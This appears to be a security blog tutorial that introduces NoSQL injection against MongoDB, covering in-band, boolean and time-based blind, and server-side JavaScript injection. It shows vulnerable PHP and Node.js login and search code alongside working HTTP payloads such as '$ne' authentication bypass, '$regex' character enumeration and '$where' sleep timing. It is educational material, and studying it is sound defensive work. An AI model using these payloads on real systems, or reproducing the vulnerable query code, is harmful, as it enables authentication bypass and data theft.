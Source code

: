```yaml
---
title: "Introduction to NoSQL Injection Attacks"
date: 2025-02-18
draft: false
description: "Introduction into NoSQL Injection Attacks"
---
```

<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.1/css/all.min.css">

## <i class="fa-solid fa-syringe text-primary-400"></i> Overview
<span class="text-primary-400">NoSQL</span> databases like MongoDB, Couchbase, and Cassandra have gained immense popularity due to their flexibility, scalability, and performance benefits over traditional relational databases. However, with this rise in adoption comes an increase in security vulnerabilities. NoSQL injection attacks occur when <span class="text-primary-400">untrusted user input is improperly handled and executed</span> within a NoSQL query, allowing an attacker to manipulate database operations. These vulnerabilities are <span class="text-primary-400">as dangerous as traditional SQL injections</span> but are often overlooked due to the misconception that NoSQL databases are inherently secure.

## <i class="fa-solid fa-compass text-primary-400"></i> Types of NoSQL Injection
NoSQL injection attacks can be categorized based on how the attacker interacts with the database and the feedback received. Understanding these types is crucial for both developers and security professionals to identify and mitigate potential threats.

### In-Band Injection
In-Band Injection involves the attacker using the <span class="text-primary-400">same communication channel</span> to both launch the attack and gather results. This method is straightforward because the feedback is immediate.

<b class="text-primary-400">Example Scenario</b>: Consider a web application using MongoDB that accepts user login credentials via an HTTP `POST` request. The vulnerable PHP code might look like this:

```php
// Vulnerable PHP code
$collection->find([
    'username' => $_POST['username'],
    'password' => $_POST['password']
]);

$collection->find($query);
```

An attacker can craft an HTTP request to exploit this unsanitized input:

{{< highlight http "linenos=false,hl_lines=5" >}}
POST /login.php HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=admin&password[$ne]=null
{{< /highlight >}}

<b class="text-primary-400">Explanation</b>: PHP Array Syntax -- When writing MongoDB queries in PHP, arrays represent MongoDB’s query structure. The syntax `password[$ne]=null` translates to an associative array in PHP:

```php
$query = [
    'password' => [
        '$ne' => null
    ]
];
```

Resulting Query:

```php
db.users.findOne({
    username: "admin",
    password: { "$ne": null }
});
```

Since the password is <span class="text-primary-400">not null</span>, the condition is <span class="text-primary-400">true</span>, and the attacker gains unauthorized access as the admin.

### Blind Injection
Blind Injections occur when an attacker <span class="text-primary-400">cannot see the direct results</span> of their injected queries but can <span class="text-primary-400">infer information based on the application’s responses</span>, such as differences in content, HTTP status codes, error messages, or response times.

#### Boolean-Based
In a <span class="text-primary-400">Boolean-Based Blind Injection</span>, the attacker sends <span class="text-primary-400">queries that evaluate to either true or false</span> and observes the application’s behavior to infer information about the database.

<b class="text-primary-400">Example Scenario</b>: Consider a search functionality with a NoSQL Injection vulnerability, where users can search for products. An attacker sends a request with a crafted search term:

```HTTP
GET /search.php?search[$regex]=^S.* HTTP/1.1
Host: example.com
```

If a product starting with the letter “<span class="text-primary-400">S</span>” exists:

{{< highlight http "linenos=false,hl_lines=5" >}}
HTTP/1.1 200 OK
Content-Type: text/html

{
  Exists: true
}
{{< /highlight >}}


Otherwise:

{{< highlight http "linenos=false,hl_lines=4" >}}
HTTP/1.1 200 OK
Content-Type: text/html

No products found.
{{< /highlight >}}

To extract the full name of the product, the attacker continues testing each subsequent character to reconstruct the produc name:

```
search[$regex]=^Se.*  ✔️
search[$regex]=^Sea.* ✖️
search[$regex]=^Sec.* ✔️
…
search[$regex]=^SecretProduct$
```

The `$` indicates the end of a string, verifying if the entire word is correct.

#### Time-Based
In a <span class="text-primary-400">Time-Based Blind Injection</span>, the attacker sends queries that cause the server to <span class="text-primary-400">delay its response when certain conditions are true</span>. By measuring these response times, the attacker can infer information about the database.

<b class="text-primary-400">Example Scenario</b>: Assume a NoSQL Injection vulnerability in the username parameter:

```HTTP
POST /login HTTP/1.1
Host: example.com
Content-Type: application/json

{
    "username": {
       "$where": "function() { if(this.username == 'admin') { sleep(5000); } return true; }"
    },
    "password": "randompassword"
}
```

<b class="text-primary-400">Explanation</b>: JavaScript Function -- The `this` keyword refers to the current document being evaluated in the collection.

```JS
if(this.username == 'admin') { sleep(5000); }
```

<b class="text-primary-400">Behavior</b>: If `this.username == 'admin'` evaluates to true, the function calls `sleep(5000)` to delay the response by 5 seconds, indicating that the username exists. Otherwise, the response time remains normal.

An attacker can enumerate usernames or other fields character by character using a similar method:

```Json
{
    "username": {
        "$where": "function() { if (this.username[0] == 'a') { sleep(5000); } return true; }"
    },
    "password": "irrelevant"
}
```

By systematically testing each character position, the attacker can reconstruct sensitive information.

### Server-Side JavaScript Injection (<span class="text-primary-400">SSJI</span>)
MongoDB allows the use of JavaScript expressions in queries via the `$where` operator. If not handled securely, this feature can be exploited.

<b class="text-primary-400">Example Scenario</b>: Consider the following MongoDB query in a Node.js application:

```JS
collection.findOne({
  $where: `this.username == '${username}' && this.password == '${password}'`
}, function(err, user) {
    if (user) {
        res.send('Logged in as ' + user.username);
    } else {
        res.send('Authentication failed');
    }
});
```

An attacker can manipulate the `username` field to inject malicious code:

```HTTP
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=admin' || true //&password=anything
```

Resulting Query:

```JS
db.users.findOne({
    $where: "this.username == 'admin' || true // ' && this.password == 'anything'"
});
```

<b class="text-primary-400">Effect</b>: The condition `this.username == 'admin' || true` always evaluates to true, allowing the attacker to bypass authentication.

<b class="text-primary-400">Further Exploitation</b>: Attackers can use injections like `" || ""=="` or `" || true || ""=="` to evaluate the entire query to true. They can also enumerate fields using functions like `match($regex)` and the character-by-character approach mentioned earlier.